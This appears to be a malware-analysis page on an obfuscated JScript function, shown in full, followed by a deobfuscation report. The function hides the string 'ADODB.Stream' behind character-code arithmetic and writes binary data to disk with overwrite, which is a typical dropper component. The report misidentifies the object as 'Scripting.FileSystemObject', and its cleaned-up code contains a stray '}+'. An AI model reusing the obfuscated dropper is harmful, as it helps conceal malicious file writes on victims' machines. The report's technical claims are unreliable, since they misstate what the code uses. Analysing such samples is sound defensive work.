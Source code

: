 ```javascript
var eTpuijIckqpFtjJOPDqgWOzKHEcHQIyjutysolOmjxZfHrDseOnnwNAQTfneHALbsFLAkQZdpDxYoUCQAjcBUKngsiZJyjfilxnCfDHOoKysQbbzcXdXXKGhSeHCqQfFXOmqgAkxbONKMuQRGagaGIKbrFkAvFXXetUBolScngvIwvVXOqwQkFyPEKzaQjBWrpgTZOcVHEna
//MBfvkMmEJGnZuExemrMDeZRHPCxzOaIfRYDCfDqDwwMkBHZURyjQsjvmkXfhPnqiyHHVBuyiAIHhMgFIdchQrsnidRRIYIoIGemtADTWzAPjcNZESXEmGaqGUZrkdqJsTybitLIZIKQrdDFPrNpADCCgngZaMjtJqWPemrKGPfdvJzcRTcsPAJoRvuvNmhNZQGAGnbcACjlYYHWnDIHjqeJhiyirwwTiSEeDzWdszsMQXPtnYHKeZdimxSXpskDGQDFUdTogePkxRtKSFvTpmoIpVrGhyozOpGAUJYKFSdAKslVDIFkxROTbvQzlNHhqPVIKtpIgkOWIoxwkWCYtDCwanYYtZYrLvJuWcKKSwDMDsKnxUPPLiomMZiXUQPHMWLN
var eDZHLrGxAqtickbZKJgcHXhxunpBgwAhgxJuuHDTcqmWfzukpqxCpiFGVbMYBEQEqLBfaheCFNAQlLSusFMqyxsxrCZSufSXahfTxPJIMvxbipVJJSgwsaFtTEoYHLHaucqDfywcvEeDAQOChPJczWezcmAtblAAnWhFyRdLVDAovCtDplqsCfaYyqbtxDBJDdQdjJDPlxG
function GfWxtXYkUspfogkOQGGnwCYR( XTDUohtHkEtoRWyAopvwNvBnBgWzFsoHfcksBTMdsvtpJnsntQTFUQkcSPTHLuCrPmIomGzUcRDRBMdOoiFpYinPsHalA , EWTBRKNCAeNMsVGeASRcivaCyvMDwyBLTTXMKtBfWKkTbZSEYGrabECJwRCVxJGCdBsZy)
{
//wVqDZtxEpuIyIwIHHqkNSCqkSmPTgibGEYeCHnBzAzLOvfIhaBvYAkoteFlnddXHTBujRFzUolMTqbpmeitemCFTkkYCBOVXbEvtlYPUBbkPXUCCPzJvjtUQwazghxTaPprmgwBFTYcLSpvPhVmCEanijewKZinDIJAicQWTxEbLQJyGejyMLQVoBJDBzqfklZCIpMmRySEAycRagqgqkarrnLhTNUUHYrarGqRRxhNtLVqZscVJKpAKhKUefTEdyxcHBaTqZOsDMyfSVIakzLwirQJvVmmdckvOtiXRJfjwwxxjfBIXsUenAtPlQXUmbPacCRZmkJbUbAluSa
var QTePlIFINzTmBlKxUhWVgNcWmjtKMAIVSpHAILdSXuDaTxHpJdfDXxuCrHcCOuvNqyTLeJpJEDxlKBDpbDBiUExVuEJAibDcyqjUewLznWzTzJspEnaLtNsmAyQZApacAVmTSiKfsBuyFdWlMTvvAsilyxTgflzywWTeXYXWcvSsStgXbfNgtebHmAVUOeAGBwCiKrNnvYSF
//ZqTEQwEzYTERuLrXDDHxvLrVryMjSZkUMWhwgRDRaAiirknyAqksRUJOzxMSjUhzijEYdvqmzqXudJdGKOjbosDsMTwiEkhGTizIfPUFAysaxPkqTGHVkGKpfMLKyHhOIQbuJVavteaqzduxiGOydMVNYKcTEKGsQdSgnqhyfMbGfUpCRNbrsjlvuOWztHrjXiZVKOJsZQTQkPiDUaBqiOAgsWlZUhFXVsiwvTrDDjSbQULffTeSGAAIhsdockXrLvvshlHAixmzwYQXLGtBDmQUrZPCqCaTLaQVZSxuLekJOBMJcGdWqWoZfbAIWFJfWTnWIuxsIzpYCHFqNFajZEdolqpyRpYGUEmvOpBhIkNrhQXYVKuQeaG
var SpykRFzbTajDxUKbXDsbpqlHVTRcGuHbuyTFQEkcIIuQxNZDKjWMmyRcEqPxnXUYSIIzAFLSTQSgvUKItORXYupvgrBZpmploWypEaCFXEtWglgjgHDZFxAXTMSJEmdgbgsZWUDTLLzTBSPvLRtiiPfqWaWrHtBlaMvztGMLDkNtygWAwXymsvyLABDwyLMSKOtoXQCEEhe
var LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl = new ActiveXObject( String.fromCharCode(448-383) + String.fromCharCode(71-3) + String.fromCharCode(448-369) + String.fromCharCode(133-65) + String.fromCharCode(324-258) + String.fromCharCode(272-226) + String.fromCharCode(164-81) + String.fromCharCode(205-89) + String.fromCharCode(211-97) + String.fromCharCode(257-156) + String.fromCharCode(436-339) + String.fromCharCode(233-124) );
//yCmsqEWvkuPseOjyrDQNrXujkmhcgUthLRzJOJNrbQcXvVOZnRLBoTmaHCIDWtOPBhhNPajhpYlbvXnOXHoPJstreYBLBJVhCMWNoBKNhdLPhLfkPtfOFyGIopjqYYffDDYiAaaWwbhfgdKTtRwIeHcDGOZzSUoJxfMdmxjoSIReQbbKePwGbXBvbVblBbEcmYhBRggwiHpVpymfmOUCXhhadQCRVxnrEprsuasyiAYTigGdiwzmHCEErGXBePakUyRAGulMWVTXINrxKZjZyBjBlmAnDrUTaozkOFWnLnQligvdPZrF
var gBlTOPPTtxJeBAxUOHiECvNLkySErXYdAOmYCfVzqDtNeljijbOHqmClnaiQwKcWZfemNYRiljOyBzgyOkUPIQmOLBkcxFCfbXoyHxUKJgVHYEjotjBMqMNItQaMoplggiXdLirQPJFcvfpHRwiNEqpOKfFrWIWUupapgFcLskwgHlNNaSurGXcqtJTgdzuHnlhGEAbMUX
//UTtIHYSrRDNfNXNjvXlvisqptWDGIZriWjDIxkCuOliqtHXKtVFDaYoccDPlVLirLfIdUElKVqhwKzvlytNnUoHyuaftURZDCqeOztqpjuikrsRdIemcxvXXYKjtYrqEReuUUhmECYDZGXGCJClqexFHSHqoKxQrEeSNxxIbrhZZrxRADgjVGzZTZnBNrxuFHLVbEtELuKyxXfPUppleNulEEzoKwujunUSfbpwKbXbwAcwtXgXBMQrMaRXFFuPzaEKDNjsAsbCpTpDbCumPWiiXcFFKRrEgIbVwSsgonXJlNBtlNvCLHzcsVmaIeiiBWWhrTGJKNyczYwJbLTxWptZIydafSYJFoHOrUBSGlsxIXdTZdzwKkMMdwZtpferpoWKQiSGKBqkw
var wQkVKBCTbzUcvluvIcaHAHUBSCrKsmIubPhgoYfebYOpBiVwYLBZPcwowjCHKsaoraAgEOGkxwgcsezkhulgkjezTsjFVXTjxZybhosKERbTwTvRjSZQGtEHwBMLeBPZdweTgYCsBabTHLCzwSVCyDcDVqfgbggDCCqzpckLQgOgRkAlyNPLfMbaUaxqtWQUuYREUCJThJl

//RowllpthORUXpbPfPfuSuQtltSvQvDveWaJlXoMAzpCDZAcdEXuonrrBuKsStdlKWqBOReHaStTFNqMtqSLYJGqeiIrNwuHVDrhiyNLaPTWuXmnEyzbbSMBPzWfJnueYmxBVIdudGkJpkwGwVmOwSfDrqSjchCnVpyHalRvVFyVhDMeDQjoAfhFGuJfquSvDxnzmogKDqtrUJVnenfLxOmpHsBfbmEanCRkPMsOjZkJlpkwYWADOGxoKystnAiRmSESslYSvRcYecDSIEHFlBMgEdZQUyajqTXSlREnxiIweZKhvZkjtdfkGXOOLHywqtiKFkhrzTHCtPCfSsVuNrpNnnMNDpcqkLGlqzcKst
var jaVdrqViwSlEiyDUWSXTnJqRSiJRoTPKBUHPrKwWrUtJEgcHhVcKnZGajEKIhDudCaDOqodMWBcSPhMmFBkSqFXcNhfnznooaQGdcNRssQolwnKCsYDfTbmxDbAIIpNiMnrzaiJrkraaRmfaXduajJVzdJaBNIkCDFYJvKbKPLvbAMfRvakfvmzDSsVRHHecGXWMNWeNBk
//LYOtyRdJGmXFHQGUqDpKCIhSUdpTDZvXdKaapZtEnyBsEBQGFtfbXqhDrvYVbKGgqzbwpfeRJlXEGoNTNjNJuTAmcXjuAYccrUBFaTQaOOSmTdwChFIrwwlWzpTSvkQkJuMlnIstTnvgBOTzbhMvQkgvieFkzxedyhdYQKOYMOYJBFVlWUqOXUUYORCJDItVIRhTlujQTojBMWudIUOfGQGdNEKyHFVEUCBjXBAbkZvjlSLsXZAitOOrLEGgjkJOSfgJVKFHUmuhVWsusSbhEmKGnJXTvTrAQhRGmCWMUtOGUhWpMMnRJbJfUaWLmlMAutQoFmHqvOMLYEmGmiHigaroXl
var lMfLZjhOLaRijaEwWuPyHQoQYEedUUCcQTAvKkodeKsLoEyhejEwZZeVYPmVEDtrXoRQZIllFlUxYcbTFxylQGCrpfXvxTYaQAoAniHVxSqnFgxwoSQHEIbQmZaulqnmMthXnbgWpdoyPOmJhbHfDRVHZXNOHMkGeEbLzZINmtRbUcAXmRMJjIjvXZxPNROcshTLnbJIStt
FRxsBZXeDBnRydCMSaGmETcpNShztwefNUXAFZAnGjkhSYaFlCZgUzwlpIfjrXlHWHDeFBGt = 1 ;
//JztnwWqcqAaWVUfnZbszUeojmJpjLHEqpPZwelBsXpYcRKyqInjgZuYfKKBnhGQivjhGviJoazcfGLRbLybXXYQvrumTkNLQYphhdrvZevFZRsYysacjftKXSlPAwpDNoMGQejxTCBtcSqdyVoaKkbkeeKOscvdorslFmHTJcJgeAiFbHQeIPtcMbbmUVFqGXEkZFYMOURhbvGewFmkLQVZxQYdKVznXSZGvxfWiEQnxMARVxpPiVfpCfmIhvCsVdKJVziyZQBGAhblQGIMgjFCmjEQKWonCYSTCqwVOrpRTYpUEBsanpLlXHWlvSnDbNDcPHiZ
var JnxotniNukLJdOANMhwuULZwDmqFUNFwSTQzrXrjZIqKGeZNNqQhLoFyNBlGxcthfPqKxAVppMVLVPpZNcsexXleNSmqlkmwPIfroOPNVaszStdyLMtUkOkHeLxfNfDFaYwMjylzNeJWflLUpoeZrRLAYYMcRkzqXnZuxQONbtHFFOcsAcpYAeNIMvnLlIidfSzrMRWYZRx
//xJGvKvUcouapsZQhCcDbSLeamOkfiFRzjgPzGzdPQgtiEdGSwjUvVpfmffIvKptidbGLJRaCzoKmRvVJISjylVdtBdTbriEbmLFdWvIfJRwhesUkKynsFuwHyMKfxzKRjjzGpsnNJDpUZvPIJjRtuMVsOyfKkciJGexvtOuRLajCFciCwBWNiRWXNHrrNccgVfNuxUOupzhUcTmlQcNiGUboHahmWCEixChZPnEcmbYjkCutUGbkPtaAEYmXmcYmvzWamNWcXkvewsEFfoSQbTTEcgUqAhqKDlnlfUHGjyNexvEMThryKILbfRxFtfcpulbLETZLgLgcGoHgc
var HWSqrAuZMFOWCNEVXkMTsIAHfSybjVrKQdlIJzCkglrOLpeycGiDuNjzWKKZCTpqNDFYbwMYhbnHQmwqnzzcnnQDumlzociNvAAIjFXguJVTZcijOUmCUNDZnBeoKMkFsaLQmoGhcSieRweSECkTqgsixaVibiWhYQazRSxZOEaBfZIqXLjHcROMhcSLTXGtwAFBWeBm
aTfUivXpsbOqXxLOXlLxtQviydKKUvAjwfGBTbDtlpqPJukYwpGTqJzJXxVFkMUxbeurrKuwiR = 2 ;
//ELEmFqDXSeLQyOFHBNSozmGqxgFeUHTtKxDQMcHqYvtoMquiuyzJLMnSENoYlYDLLRFBKouZGbQEtSeHmXjVHKhyKlMyoiFzricuktXGEaCkwjZmjgmOohDAkGqZcvlXWQMLpjWtAdRhHwCbMZPHwrLJecJeCydIpfNfWOxAJsNLQVtnEPMCgdbfFCgNZsrCzIsciWEycPxDdztIiWamlbcLDiaThkaRBLLHdREhKOZRfYBFJXeDSEQYfgZAvlQsogBRolfRRsbWBLfehVJKFXywvncwrElZxhcyWkQYrNlZduWU
var AuSabGnRiFWAJjZMHCZUjhHxElSrlZTBRIvxlLxrtLQRNPPIoZSaUBkTmVVpovfImVjAocawEhbXQqjoVJDMHsgPXbKPpHDyfHesgOULyVVmaMDwmgTerTBtpUdMRKGwecsILqIHprOlWtpKYNdJnYGMGlCLkHunPZIxUulvXMozFQWwfToDhwIGWgCanwWhxaVxlrpdchl
//bkHGpOGgRTqFSQBbosLHapGBevZLndLazLhVOZMLhQEOHVCgjPBkRaLldFcupvtoHPFHjgMPfzaKkruJsscYcaJZzvrJwSVlWQGrPuxCCmESzAAmKTBxTVMhGgInoCSNdonUkCtxuZVqVrazvFzdQYSBEZljmJOzTroLNgBHZDCtAWLPFJsiDpwFVlQKRKLlKVWeCOlOEsDMWZBiOWddQgwevipbQqpOsRiezgMrXddLljjwkiwvhhUeYsiUZKyOCpUFqWiiKmGmCltMztriuuhLwDGHyrRMfPIwPeFNzOlvahcmyW
var UfTQUHHIImQajSUuHmcxxVneigJmkPbTJbXmtOvAoGWTwZeSagZpKBZzspioyUYsKxRIuiAsrbIqzThJBqLDqlJHCYtDgGCUidIzHVYsfhxitizYHYmHIUCYnJGWowLkZoIVLhBgSTYIobOTYVwIUuLObjLyPBEiVMIEadMZXFppvtkMvnySADQedtubWDQROpnbSJsuIW
LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl.Open();
//kOFVSiyyCcClhRwebgjkDUpXbGFIuluDKeTBYIbMcXAoOcHVfniLKXSPZhtLcqERhybDyvFTFXHfUAJyzjdGCjtmLDbqOPjmTiGPBEXjiPFnPmvYYvMsMxOyForuTPFqnVMluuxvMtYndFWZHDSSCraVUIJMMcQTJPzuaKedxRgSZaUARSnQwmnwuqRmklijdFeOFcyxYoUkKIwtnJuupAWXbDAktrtMjxpTwGupUprHRCmmtXzbqotdiGmCcNEhvHBNSdwgPEaAIOFYRNrVsRWuDLkpUrNGlKMJBYTQaSMmNtUUANlOWiodlGJHsHLXrUOyCwXsubvZFkhJrQoGFyjCViXuOMXTHoutfWSEptTvnOYBZAP
var cSFRskLcTYddiDbSQpneVxjQMfnPHJWUOwuBBWCITtygMPlsLvIMmVueioFNxwVKBJPlIaQtmeLbzDExuvDLBJhtBQTNRpLXYoeCAzjlfOZIKTfejHTBsJIsbWksGDbxSoCKYBxuMRgmkZjikodKWJeOfmbdPqebmbpVQUGiKYpadWHCnBHSZRbIJofmaTfVmEzIjNSQivA
//xUDkJeZqNjMCVAgMbpUHqsUoZWySZjrkdRdoGDVHBcRlaBeIDBqaNnJFzPLmfGRercZDWrFYUNGNaiNXrqOYsQWpIYpqsibuLntycbmLvSGAhveQBoupsslaFjvyCOgllMCnpPvQEDdaKVIMuYpDolCTBSssgnIglVOUtqblseloPLQjbiDdZcxAKjlWXCkQuwopGnTDxEKJzNDqCIQxjfHJYOKJFEOqtVtTWacoOAfVRnAwfuUOlmgPoeRsdJxtpUPeTkUbfcijzmskNNeKkAEHpeerJkKFDmfwXWdvasiJDwQCmgeQfnIpQIopGcRvRdgMHvNqjijsRuDsObFd
var GuZPepgOiopyamraQDvqTngxDQXVFwbeWopXDQiRPyIvtlReDcbKgOKSNcMORLImMKbmxUWAVdbUekDSzsRcUQxIeWJbDTAEpWiiJehjGaoDnpndYtPYtgRwNTIaKuwBcWeHBVJULiWtbuUojgCJEbLJFmVpWGYLenaQKfbDkuNKJYUSyTresmwBLUCOzTxEKLPoTEdDEyZK
LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl.Type = FRxsBZXeDBnRydCMSaGmETcpNShztwefNUXAFZAnGjkhSYaFlCZgUzwlpIfjrXlHWHDeFBGt;
//OAAhSCrDPuSrqZEpdMDRxIAyIfzupoZtNmmKUVwxbupPsYyuzoarvHNGACYnDxObVZdDmuVIQGpCSkFkhEuBOhyFZgKSwJuegOuSuuHFSSboSKnPwoFyCMNnaXeFkCLHLKWEqnpnxpiwGJnPtuWIDwcTBGsWPBVQGTdHniZJySANeRhRkPMqfCDPiDDjuTXvTRpmggbKUNKlvOokZbmApfkEPNYkfqOfuFtMbvkDnBVSsSTUOSJTgWFohlWSHrfezfqqUbIeqiNoJSLxuEVNguyYzEfqYRwvWqSMcdzmJfcxJReOZZYCVSyFgRqPwSFZmRRTzzU
var QFiDARBPhaQRzttaEsNfKnjqrZDKrALPaEHxnOxnfCIpfBGftrNalTKdVrLbNqXhOBqvlvnpuaAIetLqTXRAmkdHuecvDWZoeabdKKuxEYgLSCybgUHpZXvdXjBHTrlXAMdEShgIdUwOESosfAPiOkOHfxGaJneMmJKFYuJyozMFbgZFuJbScCIQxWYUbFyppjbuHjTlrQuP
//XJfyYBfAMMjjAuHCVoXiBWPrFexLppaLItsnqawZZxddAruMbQQDtLOBuottDUKWlXbHBTLurxIDslrNkkjYZWSwertChDVFnHrcQnKHEVMwCLIIwfJSklwOFecKaJNnbDQltPxxacTEKWuTjkFBuCVBLcWlKAgvIYUzvXPhiLsIRrEjkIbqDLtYhOZQsLmZvYwmBuYLVYTiKNjTYmBBZqrwevRgxyoWZTMtvRhpkPVfrLOUfFsFJkAEgzHGdsOXkwIqApYHFMRKUMETgxAsFiMoSIMvJbLrByuvCXUqglAxSqkTuoZgsVRBjTYscdxeAaIWSJ
var QIdKLUhPWcYsAVBfzfhtLizbNDnWxshNBlXQChKwTUxwUjdbcUadpYyiJBxIhLSduKrPykdRVkZqkDHdZMtcREYcmoHBkBPICUBJsOdrrIIEzIxFuTiURpLqmOcJdbhTVQnQCxkLiClIvTddqBHQSurNIKXelTOPbojjUhDwjXlPECuSlyScUQBaZaHrZFaPnVhHktJJxKgv
LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl.Write( EWTBRKNCAeNMsVGeASRcivaCyvMDwyBLTTXMKtBfWKkTbZSEYGrabECJwRCVxJGCdBsZy );
//IcIFPEtmBmvKnIKtaLWewWbiVnirpJeJkFSwRCcVLoNBaWUbjPjloCymAZjbWCwrHmahqNcXjBSIIaIyTGHaasUhGfwsSAyJrWtowmlWnLCnkqdaRlIQuWRPRtaKRjFjCIQmhUCgUlnPqhwQCVahriOVEeWCLaFDFTkbZqtwibvIiCYjwKHvJYrUuviDxzVugkJXxVrMceyQnFmCFnFBTJuhbPhdIqyiGBcysBlbTvSeZahoIfxKuTbWpcvhnNDmgQJmdnJEBeiXrPHBitVcsnonaFIQFEoFsfyJRvKUVtJPlDfaUuzusausbWLXftyxpcfLRxjniAHzeYCWaivLFtNRlGhvjmpcuMZIYTJWLLMrTuNDTpxwynrwPNaKQnEvKfFSytxHZYzt
var hVxqsebtpteGUdsKsyGXHQhopuEZrqXZoxOuQkRmMKGRAzxUBnObScmRoIByZBByWESWPyuIgUKwKPnqwjYEcvHLLxFHiTMKIHvwhbFCsFuxSpGYVLBpdwWaxGLSsmZMHAnDUrIVeWLWBJtVqhmXSXhLkVyaQnJGfhpRBDEdCfLGlAYnNpbLACukSbSysiFrMFqUUbTncI
//VnLaakwLMaLxFdnFzZlFlTZTufJETmVoirgHYrBhChVffOzMgObtBXXBNsgvbssaEXONwfgHYEDDyuoffwXEKbnLUfugLFFKpvaIAlQBiUVxUTDSDBQeUnPckDtRlzwTysOCUgftgWWqGprAcbdJpbpBfxYwszPiXCzbEAxXWWyyRZWuMtoKWmdXDNXWIiBhHnSEqPvcdGnTcrkFbdkyKELlYbYrdbOoVRqdHREwyMgQzKuLdRvexCWCbhfOqDzCrzxKBGyKZnAxYvlOhNOLgkqSuoBalpGuNdZAMkKWSlFKCZdgvRhdpnWGJfQMFYYjhFkuVl
var CwDstuffPVKUeUIcFaHSrgTxRuMVcxpjLKPkawubbdQvCkuEbEAKnCuVdFbyiJCRfbJTEXCIffrNQYvgAItYxfwIQuHUVvtRayPbaazDCreHLgEEKuyZPeUAeBDKQhmkmZmSJTGZIpVFBpwkpCKbxUBwdOwZWonVEtVmtmvqoYQaIOzpETVNXLnSXqouXgDUCABHUKqCHTm
LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl.Position = 0;
//YDbnPOGUDTZytGCPCyATHVwXINsVucTGDYOOvDZfQMzAcCHARvoEGAfCGDeBWlabASuVsnTyZUCvWwvFFsEznOACtLIrZXJfmXAJHmIdbpflxjgKIYvdgbnlSrbgfbZBKXJyvlyTkbXyjOFJfyjAbfyKjPrPKbxAPdaaahOXactFDpBDmSBhsZafYyPgtiIIdXiGneixjLZymtHuNndraQHqDvBcSidsUlbgHvQHkDyhAbsfrVSGFQhNPrDrdGfAhgeARamSXVHWSaqbCVkxPXnDDOQPrYedYxzTwsOQiAijILupBboHVilKtbxCJXayqeyUbXfKHUOPoDurTbNPjWIqMoZVuLHKZjteNZ
var OeweABTWVpgFiiKKPUVHImxKQvMEpFKPeuMjTFWGWqTkopdYAPUZJFRchmOEoPgQfQaoVarJxOkSSMVaSoDaklGYckBgrRSHJDFXOoCZXKbuVyJURnmALGftJBLlZKSgwdJOHxMdldCZKMDeahPDfSvCXLOMcRANsuyspvMTbIOhEGjxyhLsuOBehGqwjzBUdohPOLofUwc
//WDNyRcROvGITdtTKjEQkbHuEPZTimtfXymeaTIYUSlFOVVDWuAEaEMAPJJisIibBakUrOtrbfwSqBfjtVxnloFTmlPQJZgLjJEokALHBJdvHtKNeaoWLuqNURiGychBzkihxrytKpmcKKLsaBmjlJAoTrTTSFIYbcvWLdQmcvMVINCKFqfwqyQpktNFXfbEhOAiOpgxlzHpwegFoIObaLicLFlRPKPxUIotNTwQKhLqratFNIQOQzeVgXXIDPiakKVoqnsVMyRsAslkMgEGtAgUdTNpwnMuzkFhFEPZQvCSimVommwXKbgkdAKXaCYYlWtPmDeHQepyxNlryYCJrpjXDUDEtszOWdhMsFBiHoGgmimQPTZBzPhvm
var VLRAaOYebbUfZysXUBDjDlVhnpaSyOHwmaXujihahCKHSkqVgefNeMjkqjNkoFfNTYtzbynlTdBAaNPCzFmUitRaqmEzVxmcWwnurqtiqtuBKiJcULkiTLfaGTIotnQWrZedaUKILDdozQPIcbfKMDILRNoYiEoDdYJkDfCAAcXPhqapDzLSHGJnQTLMfmZGPZLbGeEwZ
LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl.SaveToFile( XTDUohtHkEtoRWyAopvwNvBnBgWzFsoHfcksBTMdsvtpJnsntQTFUQkcSPTHLuCrPmIomGzUcRDRBMdOoiFpYinPsHalA , aTfUivXpsbOqXxLOXlLxtQviydKKUvAjwfGBTbDtlpqPJukYwpGTqJzJXxVFkMUxbeurrKuwiR);
//eJkftdbmzUisWvWOVTkTpUOCRAHfziZvPtdwYIXpkagSrNseoMkKTdjKviOsVwnRvnddSaqNwvjPowLDHdrmxOblJTBqueTomOWDjPLOWXOYtTVzXKlsEAUhMsTzYzTRbudZZHUrRdQZzCspxCSjtbjlupqrwMpWExxyqvZPquabkuhJzdCWhjYzLrfjQcvFntVCEtzBcDtyBHBAHhrSKSpUZxnzQpyNzUorYfEGeAudqZyDpebjkcvUDBdHGzkmEfzgTKbccloJYLdzzjJmNPdWYTnXCxzePHZLZSkfCzHzomwsYdIXpyYpCdHAWEaemJuQmRZgzejOHdhmWvzYpcpQjkJwKkIyYdMfrfFGEb
var YLPJhYvUdbFCpJUdhBIdWOVkpeRCurpsUNEdBZClAqGhsWoDLOyDxbFJqeTCHtZmmMhbFqcHzXcfIosTqNqgslvsIvnWFzdHQUugoMxVmrEayZABmAMtCttBRoSKCFBztUPotMedPVuAgUujulkEnkEXatOzunSgpFgdKMIaWidhytUwujPRVwMJQrNAxejcDNLbnQYhdJiE
//GXYhYSFKXBKttXNSzIcszBdlitIeKinLOHCtTgbeZYECDRhQCGiVhpEFtnzeKaApNzelVUySgyTbwbiQLscDASeYCwzfhxUzYPoDmwuiHPojWdISFiSRywpuUGiZUSljdTDhmedPxtwkevBZnhayeDAbZujgOVNoeFFCabfbFDTEAEQZFJlnsnEaTbHruxBcgHGYpyzMBztbjwbVeKbEjZwrBfjyTngHCqYsyrjGKYmstdqWAmNkWwsGKPXJOAtNTlYsYiWmbUuLnExXoNygavlFyRijUZrJfZZIEyyRPaJBBhTGRzVBBMmXzTuGAnSBckgOeoTqOgRzmkDQybRUEqHSmBJlErRbIHYRBE
var bdgenVvnkOPdIZWyxmcNccfhmWPprfLmPtznnZDmXyRuVajrFJKlooczyyrQFFvFCcOOZiLXjqpdLkMMnXkhVaybQApohnhSDLrsLURWymCyyznNmfchVOkcenyZtWpwIXZzsTATGOiiXAcQMcCCKzwpbOOYVsccwFpaZnUSfJbGfBEeKhNRUnmIakYeFbxNlGmSKCrYH
LDafYEsmOeogsnfwdWFyJYUtoezshlvKlZxwjsYRMyyqIvmHLvgYqkHnigrtEAFcjeuTpjMlxolLaeksssgl.Close();
//jWAYpJZKjOoeLHITgzoPqMDMNVYPmTIqoJlRlklayTVNIjazdyeCCJQWSoKUlKXQGyqBWrivONRWqqDeuZmnoFnesOywZQpowFGKsZclQinosufclgZMYjcAKLIHtlVyYcalkslVwAXFRymyiWLtqdPMcFAgQVseMpQPTtrsuDPXMWiLZJYXacHvMNIesEEbIttciWepeSymNsAGWoHHwVDkhVCGkNzpzoPTcGcCejtHdUhUNCHEwxfmpIuNUYEQTInYchdQLFcMbvGNnhsiFvtBJcdULPhGfcoUhJsgYrsrVTLtChZmgV
var LXPlPzDJFwXVgzGmgepLKODBgqRjSdqvaKRREvtsdOlwTzmLmPBvwULwUOEYhTrbFcvWiphkkwivcHihDGxCcuyGzUxqqULJXKqqDQdxiQKAlPTMfXVbWpyKepXNsquPlYYSQsdndAUMkyUjBkLTzjnhMfMOsPErWvOMqBwnthyWVmafUnLIfaPClrFlfPuNvcpojItAnX
//aRlRMaEguFDwLwfMbzvKHdnkaswmvLuLUHzyQTefgyVpJzRtJXhtFdQweArUdSkiLsbDwhvHVPdJIxaabCcYeAGrrCTPcKCONmeRXNxcbZYpzHogZQsapMDKmkMtNgfKMPvVTJDOFAwFbQrkOmpMRbYBjTfnAEOvuOdkLSMQNeVpPyiVscebqSslqtmAePNAmBLNnHYvaZznGjllkJvYZmFbVrtRgMlxQUCOmVikDiBQTFeGIBPVTobzvjrvOGPNnBWlhXyPaKVrloHQMmJewQdctDSDdnWwSndSitZkDAuJTkNHcbibxlRWXureEvlnoYYyLphTMYbvWUIJpLaBEuzhWGuoBvgIOGUuLPvnuOOYJVzCmiotUjjtZqcE
var utRRsThQANxZQnHpgaXBGsCTHnneXaVVnqsBxxgqojCYkOdgctNzSaxBqyKFfCtZscmZuGsjthNXqdjsKHCdNVCMsqKznbKmqcgHcDlWBeFkNaLMORvYzPMWaagEvtvSXbgNxcPGVgcjQRySexkVflmaQJgCXhaIimNmtyPmCpCTncGJbOZyIanloGxovNioFTAeEMYg
}
```


# Code Analysis and Deobfuscation Report

## Overview
This document analyzes an obfuscated JavaScript code sample that implements file system operations using ActiveXObject. The analysis includes deobfuscation, functionality explanation, and security implications.

## Original Code Characteristics
The original code is heavily obfuscated using several techniques:
- Random variable names
- Unnecessary variable declarations
- Commented noise
- String.fromCharCode() manipulation for hiding strings
- Mathematical operations to obscure string values
- Excessive code complexity for simple operations

## Deobfuscated Version
The core functionality can be simplified to:

```javascript
function writeFile(filePath, content) {
    // Creates an ActiveXObject for file system operations
    let fileSystem = new ActiveXObject("Scripting.FileSystemObject");
    
    // Open file stream
    fileSystem.Open();
    
    // Set binary write mode
    fileSystem.Type = 1;
    
    // Write the content
    fileSystem.Write(content);
    
    // Reset position to start
    fileSystem.Position = 0;
    
    // Save file with overwrite option (2)
    fileSystem.SaveToFile(filePath, 2);
    
    // Close the file stream
    fileSystem.Close();
}+
```

## Functionality Analysis

### Core Operations
1. Creates a file system object for accessing computer files
2. Opens a connection to write a file
3. Writes specified content
4. Saves the file to a specified location
5. Closes the connection

### Technical Details
- Uses ActiveXObject "Scripting.FileSystemObject" for file operations
- Sets binary write mode (Type = 1)
- Implements file overwrite capability (SaveToFile parameter = 2)
- Manages file position and stream closure

## Security Implications

### Suspicious Characteristics
1. **Obfuscation Techniques**:
   - Complex mathematical operations to hide strings
   - Random variable names and unnecessary code
   - Large amounts of commented noise
   - Simple operations spread across many lines

2. **Behavioral Red Flags**:
   - Hidden file system operations
   - Use of legacy Windows technology (ActiveXObject)
   - Capability to overwrite existing files
   - Lack of user notification or permission requests

